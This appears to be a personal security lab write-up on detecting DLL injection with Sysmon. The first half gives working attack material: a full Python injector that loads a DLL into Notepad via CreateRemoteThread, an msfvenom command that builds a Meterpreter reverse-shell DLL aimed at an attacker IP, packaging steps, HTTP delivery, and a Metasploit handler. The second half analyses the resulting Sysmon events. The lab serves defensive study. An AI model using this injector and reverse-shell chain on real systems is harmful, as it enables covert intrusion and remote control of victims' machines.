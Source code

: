 # Detection of Simple DLL Injection with Sysmon

## Introduction

In this lab, I infected a virtual Windows machine with an executable containing a simple payload.  
The executable was written in Python and its objective was to inject a DLL into a running Windows service (Notepad).  
The primary goal was to detect signs of this malicious behavior through Sysmon logs and evaluate how native Windows defenses respond.

**Tools Used**: Sysmon, Metasploit, Wine, Kali Linux, Event Viewer, Python, PyInstaller, Oracle VirtualBox

### Sysmon Configuration

![Image](https://github.com/user-attachments/assets/9622ffff-10ed-45c0-9805-0e5931343393)

---

## Malware Creation and Delivery

### Creating the Injection Script

To perform DLL injection, I used a simple Python script found online.

```python
import ctypes
import ctypes.wintypes as wintypes
import psutil

# Initialize kernel32
kernel32 = ctypes.WinDLL("kernel32.dll", use_last_error=True)

# Constants
PROCESS_ALL_ACCESS = 0x1F0FFF
MEM_COMMIT = 0x00001000
PAGE_READWRITE = 0x04

# Function to get notepad's PID
def get_notepad_pid():
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'].lower() == 'notepad.exe':
            return proc.info['pid']
    return None

# Get notepad's PID
pid = get_notepad_pid()
if not pid:
    print("Notepad not found")
    exit(1)

# Path to payload
dll_path = "test2.dll"

# Open target process
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, pid)

# Allocate memory in target process
arg_address = kernel32.VirtualAllocEx(h_process, 0, len(dll_path) + 1, MEM_COMMIT, PAGE_READWRITE)

# Write DLL path to allocated memory
written = ctypes.c_size_t(0)
kernel32.WriteProcessMemory(h_process, arg_address, dll_path.encode('utf-8'), len(dll_path) + 1, ctypes.byref(written))

# Get LoadLibraryA address
h_kernel32 = kernel32.GetModuleHandleA(b'kernel32.dll')
load_library = kernel32.GetProcAddress(h_kernel32, b'LoadLibraryA')

# Create remote thread in target process
kernel32.CreateRemoteThread(h_process, None, 0, load_library, arg_address, 0, None)
```

The PID of the process changes every time that a new process is run, so it was necessary to insert this 
function to find the PID of the notepad automatically:

```python
def get_notepad_pid():
   for proc in psutil.process_iter(['pid', 'name']):
       if proc.info['name'].lower() == 'notepad.exe':
          return proc.info['pid']
   return None

pid = get_notepad_pid()
```

### Embedding the Payload

Was generated the malicious DLL payload using Metasploit's `msfvenom`:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f dll > test.dll
```

### Creating the Executable

Initially, I used PyInstaller to compile the Python script into an executable. However, running the resulting binary on the target machine failed due to environment compatibility issues.  
To solve this, I used **Wine** on Kali Linux to simulate a Windows environment and generate a compatible executable.


1. **Steps**

```bash
wget https://www.python.org/ftp/python/3.10.9/python-3.10.9-amd64.exe
wine python-3.10.9-amd64.exe
wine cmd
python -m pip install pyinstaller
pyinstaller --onefile --add-data "payload.dll;." injection.py
```

### Delivery Method

To deliver the payload, I used a simple Python HTTP server on the attacker machine and set up a listener.

```bash
python3 -m http.server 8000
```
![Image](https://github.com/user-attachments/assets/8654a2ea-66e0-465f-bfb9-918f40ed46b8)

ON THE TARGET MACHINE:

![Image](https://github.com/user-attachments/assets/8a158433-7f37-4a79-909c-2df56d66ccc2)
---

## Execution on the Target Machine and Sysmon Log Analysis

Despite disabling basic Windows Defender features, getting a stable reverse connection was challenging. Still, Sysmon successfully logged multiple indicators of compromise.

![Image](https://github.com/user-attachments/assets/0255d64d-235d-4f04-9724-b835fa43fb43)

---

## Log Analysis

### Event ID 1: Process Create

```
UtcTime: 2025-05-08 13:21:20.798
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
ParentImage: C:\Windows\explorer.exe
Hashes: MD5=..., SHA256=...
```

**Explanation**: Event ID 1 logs every process creation. Although not inherently malicious, indicators like missing file metadata and hash verification help identify suspicious files.  
The parent process being `explorer.exe` suggests user interaction (manual execution).

  
  ### Event ID 12: Registry Object Added or Deleted
  ```
  RuleName InvDB 
  EventType DeleteValue 
  UtcTime 2025-05-09 23:38:12.943    
  Image C:\Windows\system32\svchost.exe 
  TargetObject HKU\S-1-5-21-1708299313-952822903-2634392219-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AppCompatFlags\Compatibility Assistant\Store\C:\Users\home\Downloads\injection.exe 
  ```
**Explanation**:The process `svchost.exe`, running as `NT AUTHORITY\SYSTEM`, deleted a registry entry related to the executable `injection.exe`. This behavior may indicate an attempt to hide execution traces, which is common in evasion or anti-forensic techniques following DLL injection.

### Event ID 13: Registry Event

```
RuleName InvDB 
UtcTime: 2025-05-08 13:21:22.977
Image: C:\Windows\system32\svchost.exe
TargetObject: HKU\...\AppCompatFlags\Compatibility Assistant\Store\...injection.exe

```
**Rule from the Sysmon configuration file:**
```
<TargetObject name="InvDB" condition="contains">Compatibility Assistant\Store\</TargetObject> <!-- Inventory -->
```

**Explanation**: This shows `svchost.exe` modifying the registry to store information about the executed file.  
Windows uses this Compatibility Assistant key when unusual behavior is detected.The log shows a rule named **InvDB**. After searching Sysmon's configuration file, I found the rule that records this behavior. I believe it was triggered because the executable interacted with the Compatibility Assistant.

### Event ID 5: Process Terminated

```
UtcTime: 2025-05-08 13:21:20.958
ProcessId: 6392
Image: C:\Users\home\Downloads\injection.exe
```

**Explanation**: The process was terminated shortly after execution, possibly due to Windows security defenses or a code error.  
To proceed with the Sysmon log analysis, I created a simpler malware sample whose only purpose was to initiate a remote connection.

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST ##.##.##.##
set LPORT 4444
run
```


![Image](https://github.com/user-attachments/assets/654d581d-448b-41fd-9989-a6007542fccf)

### Event ID 3: Network Connection

```
UtcTime: 2025-05-08 17:16:34.953
ProcessId: 5104
Image: C:\Users\home\Downloads\final.exe
DestinationIp: ##.##.##.#
DestinationPort: 4444
```

**Explanation**: This log confirms the reverse shell behavior. `final.exe` attempts to connect to the attacker's listener, typically used by tools like Metasploit.

---

## Conclusion

This lab was extremely valuable for deepening my understanding of Sysmon logging and key Windows processes such as `svchost.exe`, `explorer.exe`, and `rundll32.exe`.  
Although I was not able to successfully execute the first malware sample, the process of creating and troubleshooting it gave me significant hands-on experience.  
I plan to conduct a follow-up lab to further explore DLL injection techniques and Windows process behavior in greater detail.
